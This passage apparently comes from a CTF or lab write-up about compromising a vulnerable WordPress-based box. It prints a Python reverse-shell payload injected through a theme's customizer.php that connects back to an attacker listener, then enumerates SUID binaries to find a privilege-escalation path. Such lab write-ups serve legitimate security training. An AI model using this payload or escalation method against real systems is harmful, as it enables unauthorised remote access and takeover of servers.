 I just have to replace the IP and port with mine. Here is the final payload:

```
http://192.168.122.147/wp-content/themes/rock-band/inc/customizer.php?x=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.122.1",3615));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

And now, just listen on your 3615 TCP port using `netcat`:

<center>
![](/img/infosec_stuff/odie_gs/red_14.gif)
</center>

It's possible to have a fully interactive shell from this shitty one, using Python and other trick: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

I ever presented these tricks in __Santhacklaus__ CTF writeups: https://maki.bzh//courses/blog/writeups/santhacklaus2018/#exploitation-1

But I love GIFs, so here is again :D

<center>
![](/img/infosec_stuff/odie_gs/red_15.gif)
</center>

### From www-data to odie

There is no `sudo`, no vulnerable processes, but let's take a look about suid binaries and scripts:

```bash
rev-shell $ find / -perm -4000 | xargs grep -v "Permission denied"
Binary file /usr/lib/openssh/ssh-keysign matches
Binary file /usr/lib/policykit-1/polkit-agent-helper-1 matches
Binary file /usr/lib/dbus-1.0/dbus-daemon-launch-helper matches
Binary file /usr/lib/eject/dmcrypt-get-device matches
Binary file /usr/local/bin/ensibsproject matches
Binary file /usr/bin/chsh matches
Binary file /usr/bin/newgrp matches
Binary file /usr/bin/gpasswd matches
Binary file /usr/bin/pkexec matches
Binary file /usr/bin/chfn matches
Binary file /usr/bin/passwd matches
Binary file /usr/bin/sudo matches
Binary file /bin/umount matches
Binary file /bin/su matches
Binary file /bin/ping matches
Binary file /bin/mount matches

rev-shell $ ls -la /usr/local/bin/ensibsproject
-rwsrwsr-t 1 odie odie 8640 Dec 27 05:30 /usr/local/bin/ensibsproject
```

Olala, by chance, Odie puts sticky bit on a binary! What a chance we have!
